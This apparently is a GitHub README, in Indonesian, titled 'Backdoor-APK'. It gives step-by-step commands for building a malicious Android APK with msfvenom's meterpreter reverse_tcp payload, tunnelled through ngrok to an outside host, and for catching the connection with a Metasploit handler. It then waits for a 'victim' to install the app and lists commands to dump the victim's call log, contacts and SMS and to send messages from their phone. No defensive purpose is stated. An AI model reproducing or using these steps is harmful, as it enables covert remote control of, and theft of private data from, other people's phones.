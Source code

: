 # Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok

**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
<br> ($./ngrok authtoken "Masukkan Token");

**5. Buat Port Ngrok**
<br> $./ngrok http 4455

**6. Melihat Status Ngrok**
<br> $ngrok tcp 4455 (port sesuai yang kita buat di awal)

**7. Jalankan Metasploit**
<br> $msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=11610 R > /home/x-ploit001/Backdoor.apk
<br> Ket. Untuk LHOST dan LPORT diambil dari forwarding status ngrok

**8. Menjalankan Msfconsole**
<br> $msfconsole

**9. EKSEKUSI**
<br> msf > use multi/handler
<br> msf exploit(muti/handler) > set payload android/meterpreter/reverse_tcp
<br> msf exploit(muti/handler) > set lhost 0.0.0.0
<br> msf exploit(muti/handler) > set lport 4455
<br> msf exploit(muti/handler) > exploit

**10. Menunggu Korban Install APK**
**11. Perintah Remoting**
<br> dump_callog (Mendapatkan log panggilan di hp korban)
<br> dump_contacs (Mendapatkan kontak di hp korban)
<br> dump_sms (Mendapatkan sms masuk dan keluar di hp korban)
<br> send_sms (Mengirim sms menggunakan hp korban)
